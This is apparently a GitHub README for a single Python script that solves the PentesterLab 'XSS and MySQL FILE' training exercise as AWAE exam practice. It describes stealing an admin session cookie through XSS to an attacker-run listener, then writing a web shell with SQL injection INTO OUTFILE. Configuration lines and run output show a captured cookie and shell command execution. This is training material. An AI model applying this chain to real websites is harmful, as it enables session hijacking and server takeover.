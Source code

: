 Single click python solution for the XSS and MySQL pentesterlab challenge.


## Notes
Since we are suppose to provide a single script exploit for the AWAE exam machines so I thought it would be good practice to try and exploit this with a single python script.
The script first posts a comment using the postComment() function which contains the xss exploit it then listens on an HTTP server when it receives the cookie in the GET request it parses it and then uses that to inject a shell using the Admin edit feature using sqli.
I've used the INTO OUTFILE approach here with the data encoded in hex 

**How to use**

Change the following 3 things in the script according to your env
```python
attackerIP      =   "192.168.xx.xx"  # IP to start HTTP server on
attackerPort    =   8082            # Port to start HTTP server on to catch cookie
victimIP        =   "192.168.xx.xx"   # IP of challange
```

Then simply run and you'll get the results

```python
$ python exploit.py
The comment has been posted
[+] Server has been started
192.168.xx.xx - - [01/ABC/20xx 01:42:03] "GET /?cookie=PHPSESSID=f0549dnc7q5aoup3vvqtndunh0 HTTP/1.1" 200 -
Got admin Cookie: f0549dnc7q5aoup3vvqtndunh0
Starting Shell process
[*]Injection successful
[*] Shell has been Injected
1       uid=33(www-data) gid=33(www-data) groups=33(www-data)
        3       4
```





## Links

- https://pentesterlab.com/exercises/xss_and_mysql_file/course
- https://pentesterlab.com/exercises/xss_and_mysql_file/iso
